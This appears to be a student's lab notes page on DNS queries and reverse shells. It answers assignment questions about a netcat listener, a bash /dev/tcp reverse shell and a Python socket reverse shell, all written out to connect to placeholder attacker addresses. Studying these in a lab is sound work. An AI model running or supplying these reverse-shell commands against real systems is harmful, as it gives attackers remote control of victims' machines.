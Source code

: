 ```yaml
---
title: shell stuff
description: assembly
---
```


# shell stuff 

## some networking stuff I am working on

Running dig on sfu.ca shows us 2 dns packets, one query and one response.
A dns request has just been performed. This allows us to retrieve IP addresses associated with domain names.
The protocol is DNS and over UDP as this is faster.
The authoritative server for sfu.ca responds to the local resolver which we then see with dig.

![alt text](/images/shell/image.png)

![alt text](/images/shell/image2.png)

● Which command should you run first? Why?

The command to run first is nc -nlvp 9090. This is because you want to set up the listener first for the shell to connect back to the attacker.

● Show a screenshot from the victim machine when you attempt to spawn a reverse shell using the wrong order.

![alt text](/images/shell/image3.png)

● Explain how these two commands work.

nc -lvnp 9090 will make a netcat listener on port 9090 and providing verbose output and avoid dns to resolve hostnames to improve speed.

The /bin/bash -i >& /dev/tcp/attacker-ip/9090 0<&1 2>&1
This command will open a reverse shell on the victim machine which will connect to the attacker machine on port 9090. 

/bin/bash -i will start a bash instance in interactive mode.
Then the output of the shell is redirected to a file that allows direct communication with a remote host through TCP. Then standard output is redirected to standard input, allowing attacker to send input and also standard error is redirected to standard out so both are sent to attacker.

● Take a proper screenshot showing that you successfully executed a reverse shell.

![alt text](/images/shell/image4.png)

● Are the transmitted packets on the wire encrypted? Prove your answer with proper screenshots (Hint: can you use Wireshark?)

They are not encrypted as I can see the information sent in clear text.

![alt text](/images/shell/image5.png)

● Suggest another method to run a reverse shell (with sufficient explanation), and show proper screenshots of running a reverse shell using this method.
Another method is to use a python script.

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IPADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

![alt text](/images/shell/image6.png)

